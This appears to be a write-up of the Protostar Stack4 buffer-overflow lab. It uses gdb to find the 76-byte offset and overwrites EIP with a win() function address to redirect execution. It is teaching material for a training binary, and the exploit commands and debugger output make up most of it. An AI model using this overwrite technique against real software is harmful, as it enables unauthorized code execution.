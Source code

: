 ### Stack4

At first, looking for the code, we need to change the eip pointer address to jump to the "win" function.

To test if we can rewrite the %eip address, we are going to enter a lot of values in the argument for the program to see if the register value changes.

```bash
echo `python -c 'print("X"*100)'` > /tmp/aux.txt
``` 

Then, open the program with gdb to see the registers:

```bash
gdb stack4
(gdb) run < /tmp/aux.txt
Starting program: /opt/protostar/bin/stack4 < /tmp/aux.txt

Program received signal SIGSEGV, Segmentation fault.
0x58585858 in ?? ()

(gdb) info registers
...
ebp            0x58585858	0x58585858
esi            0x0	0
edi            0x0	0
eip            0x58585858	0x58585858
...
```

As we can see, the "58" hex value is the "X" in hexadecimal, so we overflow the ebp and eip registers.

But it is neccesasry to put the win function address in eip, so when the main returns, goes to the eip address.

Looking for the win function address:

```bash
gdb stack4
(gdb) print win
$2 = {void (void)} 0x80483f4 <win>
```

So the win function address is "0x80483f4", thats the value we need to put in %eip.

### Stack

Looking for the padding:

Look for the ebp register and eip register, to know where are them.

```bash
echo `python -c 'print("X"*64 + "E"*12 + "I"*20)'` > /tmp/aux.txt

gdb stack4

(gdb) run < /tmp/aux.txt

(gdb) info register
...
ebp            0x45454545	0x45454545
esi            0x0	0
edi            0x0	0
eip            0x49494949	0x49494949
...
```
So with that we no the padding is the size of the buffer + 12 = 76

|buffer(64)|?+ebp(12)|eip(4)|

And then knowing the padding, we can rewrite the eip pointer, so when main executes "call", it goes to the direction we specified, in this case, "win" function.

```bash
echo `python -c 'print("X"*76 + "\xf4\x83\x04\x08")'` > /tmp/aux.txt

./stack4 < /tmp/aux.txt
code flow successfully changed
Segmentation fault

```


